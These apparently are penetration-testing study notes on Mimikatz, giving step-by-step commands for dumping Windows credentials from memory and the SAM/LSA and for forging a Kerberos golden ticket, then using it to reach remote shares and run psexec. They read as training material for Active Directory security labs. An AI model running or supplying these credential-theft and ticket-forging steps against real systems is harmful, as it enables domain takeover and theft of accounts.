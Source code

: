 
## Mimikatz
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### What is Mimikatz?
- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dumps credentials stored in memory
- Just a few attacks: Credential Dumping, Pass-the-hash, Over-Pass-the-Hash, Pass-the-ticket, Golden-ticket, Silver-ticket



## Credential Dumping with Mimikatz


- Extract to victim computer 
- Run `mimikatz.exe`
- Run `privilege::debug`
- Run `sekurlsa::logonpasswords`
- Examine result
- Run `lsadump::sam` add /patch or ::lsa (local security authority, protected subsystem in windows authentication)
- Check out `ntds.dit`

## Golden Ticket Attacks
- Abuses krbtgt (Kerberos ticket granting ticket) ticket hash found
- Open mimikatz
- Run `privilege::debug`
- Run `lsadump::lsa /inject /name:krbtgt`
 - Retrieve SID of domain, NTLM hash of krbtgt account
 - Run `kerberos::golden /User:Administrator /domain:domain.local /sid:SID-HERE /krbtgt:HASH_HERE /id:500 /ptt` 
	 - id is rid of account
	 - /ptt is pass the ticket
- Run `misc::cmd`
- Run commands in opened shell 
	- `dir \\THEPUNISHER\c$`
	- Check out running psexec in machine using the opened shell `psexec.exe \\THEPUNISHER cmd.exe`
- Golden ticket is basically persistence

> Homework
> - Check out Silver ticket 
> - Check our running psexec

## Additional Resources
Active Directory Security Blog: [https://adsecurity.org/](https://adsecurity.org/)

Harmj0y Blog: [http://blog.harmj0y.net/](http://blog.harmj0y.net/)

Pentester Academy Active Directory: [https://www.pentesteracademy.com/activedirectorylab](https://www.pentesteracademy.com/activedirectorylab)
